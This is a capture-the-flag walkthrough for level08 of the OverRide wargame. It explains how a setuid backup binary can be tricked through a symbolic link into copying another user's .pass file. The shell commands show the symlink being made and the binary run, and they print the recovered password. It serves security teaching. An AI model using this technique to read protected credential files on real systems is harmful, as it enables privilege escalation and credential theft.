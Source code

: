 
# Walkthrough

**Main** : 
This code appears to be a simple backup program that takes a filename as a command-line argument, creates a backup of that file in a subdirectory called "./backups/", and logs the backup operation in a log file located at "./backups/.log"


**vurability:**
The binary has setuid permission set for user "level09". This means that we can exploit this binary to read the contents of the ".pass" file of user "level09".

**Solution idea:**
 Make symbolic link  of  /level09/.pass the program will open it, and backup its contents.

**Process to exploit :**
>   1. **Symbolic link **



## Step 1
### Symbolic link

```
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ echo "abc" > test
level08@OverRide:~$ cat backups/test 
abc
level08@OverRide:~$ cat backups/.log 
LOG: Starting back up: test
LOG: Finished back up test

```

```

level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:~$ ln -s /home/users/level09/.pass passwd

level08@OverRide:~$ cat backups/.log 
LOG: Starting back up: /home/users/level09/.pass
```

```

level08@OverRide:~$ ls
backups  level08  passwd  test

level08@OverRide:~$ ./level08 passwd 
level08@OverRide:~$ cat backups/.log 
LOG: Starting back up: passwd
LOG: Finished back up passwd

level08@OverRide:~$ cat backups/
.log    passwd  test    
level08@OverRide:~$ cat backups/passwd 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

```
